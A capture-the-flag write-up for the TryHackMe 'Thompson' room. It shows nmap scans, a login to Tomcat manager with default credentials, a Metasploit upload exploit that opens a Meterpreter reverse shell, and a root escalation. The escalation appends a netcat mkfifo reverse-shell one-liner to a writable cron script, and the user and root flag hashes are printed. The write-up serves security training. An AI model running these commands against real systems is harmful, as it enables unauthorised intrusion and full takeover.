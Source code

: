 <code>
   
https://tryhackme.com/room/bsidesgtthompson
cve-2020-1938


## Enumeration

```
┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nmap   -p- 10.10.29.119       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 11:43 CEST
Nmap scan report for 10.10.29.119
Host is up (0.038s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8009/tcp open  ajp13
8080/tcp open  http-proxy

┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nmap  -sV -A -p 8080 10.10.29.119
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 11:45 CEST
Nmap scan report for 10.10.29.119
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5


PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

**Looks like cve-2020-1938**

## try default passwords on web and Get

```
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```


## Try msfconsole
``` Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.29.119     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.28.108      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.8.28.108:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying c7LfPuhpeMX...
[*] Executing c7LfPuhpeMX...
[*] Undeploying c7LfPuhpeMX ...
[*] Sending stage (57971 bytes) to 10.10.29.119
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.8.28.108:4444 -> 10.10.29.119:47342) at 2025-06-18 13:13:42 +0200

meterpreter > id
[-] Unknown command: id. Run the help command for more details.
meterpreter > ls
```` 
## Get inital access as user

tomcat@ubuntu:/home/jack$ cat user.txt  
cat user.txt
39400c90bc683a41a8935e4719f181bf



## Privilage Escalation to root
tomcat@ubuntu:/home/jack$ ls -la
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jun 18 02:17 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts

looks like id.sh is runs every minute with root creads

```
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.28.108 9001 >/tmp/f" >> id.sh
</f;cat /tmp/f|sh -i 2>&1|nc 10.8.28.108 9001 >/tmp/f" >> id.sh              
```

## Get root shell
```
┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [10.8.28.108] from (UNKNOWN) [10.10.29.119] 33486
sh: 0: can't access tty; job control turned off
# # uid=0(root) gid=0(root) groups=0(root)
# ls
id.sh
test.txt
user.txt
#  cd root
# ls
root.txt
# cat root.txt
d89d5391984c0450a95497153ae7ca3a
```+
